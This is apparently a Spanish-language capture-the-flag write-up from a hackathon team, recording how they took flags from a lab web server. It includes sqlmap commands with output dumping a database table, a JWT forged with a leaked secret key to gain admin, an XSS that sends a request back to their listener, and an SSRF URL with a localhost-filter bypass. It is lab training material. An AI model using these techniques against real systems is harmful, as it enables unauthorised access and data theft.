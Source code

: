 # Hackathon NUWE - Schneider Electric

Nombres: Gabriel Juan, Anthony Michael Alonso, Sergi Morales

Equipo/Mesa: 58

## FLAG{ALWAYS_CHECK_COMMITS}

Para encontrar el git hemos seguido estos pasos:
- url https definida en http://192.168.56.101/robots.txt
- Modificar el etc/hosts para añadir 192.168.56.101 wp.geohome.com
- Accediendo wp.geohome.com, se puede ver un link al github donde está el código fuente en el historial de commits.

![imagen del commit donde hemos encontrado el flag](./images/FLAG{ALWAYS_CHECK_COMMITS}_1.jpg?raw=true)

Imagen del commit donde hemos encontrado el flag

## FLAG{Update_Plugins!}

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --tables

[20:04:16] [INFO] fetching number of tables for database 'flag'
[20:04:16] [INFO] retrieved: 1
[20:04:18] [INFO] retrieved: flag

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --dump -D flag -T flag

[20:20:00] [INFO] fetching entries for table 'flag' in database 'flag'
[20:20:00] [INFO] fetching number of entries for table 'flag' in database 'flag'
[20:20:00] [INFO] retrieved: 1
[20:20:04] [INFO] retrieved: FLAG{Update_Plugins!}

## API_FLAG{Never_public_your_secret}

Aprovechando la información del git donde muestra endpoints de register y login, hemos creado un usuario y nos hemos logeado para conseguir un access_token.
Con ese token lo hemos pasado por jwt.io y hemos modificado el usuario por admin, y definido la JWT secret key del github "Ge0HomeIsThePlaceWhereFantasyMeetsReality" y hemos conseguido un nuevo access_token.
Con ese nuevo token hemos hecho una petición postman apuntando al endpoint /admin, el endpoint /admin lo hemos recuperado con fuzz.
![Hacemos el fuzz para encontrar mas endpoints](./images/fuzz_1.jpg?raw=true)

![cambiamos algunas cosas del token(user y le pinemos admin, y ponemos la JWT_SECRET_KEY](./images/token_admin.jpg?raw=true)


## FLAG{sanitize_input}

![Hacemos cross side scripting para enviar una peticion a nuestro kali](./images/cross_side_scripting_2.jpg?raw=true)

Hacemos cross side scripting para enviar una peticion a nuestro kali

![Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag](./images/FLAG{sanitize_input}.jpg?raw=true)

Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag


## FLAG{SSRF_PARA_TOD@S_XD}

![Cambiamos la url para llegar al sitio concreto cambiando letras y todo ](./images/FLAG{SSRF_PARA_TOD@S_XD}.jpg?raw=true)

Para conseguir la Flag hemos usado el URL: http://192.168.56.101/testsite.php?url=http://locAlhost:1337
